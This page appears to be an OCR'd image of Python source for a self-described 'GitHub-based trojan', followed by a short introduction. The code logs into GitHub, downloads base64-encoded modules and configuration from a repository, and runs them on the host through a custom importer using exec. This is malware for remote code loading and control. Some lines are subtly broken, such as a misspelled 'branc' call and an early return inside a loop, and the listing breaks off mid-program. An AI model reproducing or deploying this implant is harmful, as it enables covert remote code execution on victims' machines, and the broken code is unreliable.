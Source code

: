 This script is a **GitHub-based trojan** designed to dynamically load and execute malicious Python modules from a GitHub repository. Below is a detailed explanation of its components.



```python
import json
import base64
import sys
import time
import importlib
import random
import threading
import queue

from github3 import login

trojan_id = "abc"
trojan_config = "config/{}.json".format(trojan_id)
data_path = "data/{}/".format(trojan_id)
trojan_modules = []
configured = False
task_queue = queue.Queue()

class GitImporter(object):
    def __init__(self):
        self.current_module_code = ""

    def find_module(self, fullname, path=None):
        if configured:
            print(f"[*] Attempting to retrieve {fullname}")
            new_library = get_file_contents(f"modules/{fullname}")
            if new_library:
                self.current_module_code = base64.b64decode(new_library)
                return self
        return None

    def load_module(self, name):
        module = importlib.util.module_from_spec(name)
        exec(self.current_module_code, module.__dict__)
        sys.modules[name] = module
        return module

def connect_to_github():
    gh = login(username="your username", password="your password") # 2FA accounts: replace password= with token="your token"
    repo = gh.repository("your username", "repository name")
    branch = repo.branc("master")
    return gh, repo, branch

def get_file_contents(filepath):
    gh, repo, branch = connect_to_github()
    tree = branch.commit.commit.tree.to_tree().recurse()
    for filename in tree.tree:
        if filepath in filename.path:
            print(f"[*] Found file {filepath}")
            blob = repo.blob(filename._json_data["sha"])
            return blob.content
        return None

def get_trojan_config():
    global configured
    config_json = get_file_contents(trojan_config)
    configuration = json.loads(base64.b64decode(config_json))
    configured = True
```
